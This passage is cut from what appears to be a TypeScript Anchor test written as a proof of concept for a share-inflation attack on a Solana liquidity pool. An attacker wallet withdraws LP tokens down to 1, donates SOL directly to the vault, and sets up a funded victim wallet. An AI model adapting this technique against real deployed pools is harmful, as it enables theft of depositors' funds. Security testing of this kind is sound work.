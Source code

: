 ```ts
        lamports: 793666283520,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction, [userKeypair]);

    // withdraw LPs so that 1 is left.
    const withdrawLpAmount = new anchor.BN(890880);
    await program.methods
    .withdrawSol(new anchor.BN(withdrawLpAmount))
    .accounts({
      pool: poolAccount,
      user: userKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: userLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
    })
    .signers([userKeypair])
    .rpc();

    const afterWithdrawSolBalances = {
      user: await provider.connection.getBalance(userKeypair.publicKey),
      vault: await provider.connection.getBalance(solVault),
    }

    console.log("Vault amount after withdrawal: ", afterWithdrawSolBalances.vault);
    console.log(" User amount after withdrawal: ", afterWithdrawSolBalances.user);

    const lpMintBalanceAfter = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    console.log(" Attacker LP amount after withdrawal: ", lpMintBalanceAfter);

    //console.log(" User gain: ", afterWithdrawSolBalances.user - );

    const transaction2 = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 1 * LAMPORTS_PER_SOL,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction2, [userKeypair]);

    const victimKeypair = Keypair.generate();

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        victimKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    // ATA for the LP Mint
    victimLpAccount = await getAssociatedTokenAddress(
      lpMintPubkey,
      victimKeypair.publicKey,
      true,
      TOKEN_PROGRAM_ID,
      ASSOCIATED_TOKEN_PROGRAM_ID
    );

```